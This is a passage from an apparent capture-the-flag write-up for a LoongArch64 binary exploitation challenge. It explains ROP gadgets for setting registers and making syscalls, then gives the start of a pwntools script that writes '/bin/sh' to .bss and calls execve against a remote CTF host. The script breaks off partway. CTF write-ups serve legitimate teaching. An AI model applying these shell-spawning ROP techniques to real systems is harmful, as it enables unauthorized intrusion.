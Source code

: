 gadget2 = 0x120048098

```assembly
22555:   120013e30:	002b0000 	syscall     	0x0
22556-   120013e34:	4c000020 	jirl        	$zero, $ra, 0
```

syscall = 0x120013e30



with `gadget0` I can set `$s0` register

with `gadget1` I can set `$a0` = `$s0`

with `gadget2` I can call function in `$a0` (that is copied to `$t1`), and set all the registers we need, this is like `setcontext()` gadget

and guess what ?   with `syscall` gadget we can do a syscall.

so with these 4 gadgets we have all we need..

------

5. #### Let me see the exploit (I'm bored of your endless explanations)

   so I first reuse program `gets()` function to write "/bin/sh" string in .bss

   then set the registers to call `execve` syscall

   and that's all

   ![gotshell](./pics/gotshell.png)

   code speaks by itself.

```python
from pwn import *
context.log_level = 'info'

if args.REMOTE:
  p = remote('guppy.utctf.live', 7133)
else:
  if args.GDB:
    p = process('~/work/qemu/last/build/qemu-loongarch64 -strace -D log3 -g 1235 hello', shell=True)
  else:
    p = process('~/work/qemu/last/build/qemu-loongarch64 -strace -D log3 hello', shell=True)

puts = 0x00000012000c438
gets = 0x00000012000c098
read = 0x00000012001df80
exit = 0x0000001200057e0
write = 0x00000012001e054
__NR_execve = 221
__NR_read = 63
__NR_write = 64

'''
   12000c034:   28c0a061        ld.d            $ra, $sp, 40(0x28)
   12000c038:   28c08077        ld.d            $s0, $sp, 32(0x20)
   12000c03c:   28c06078        ld.d            $s1, $sp, 24(0x18)
   12000c040:   28c04079        ld.d            $s2, $sp, 16(0x10)
```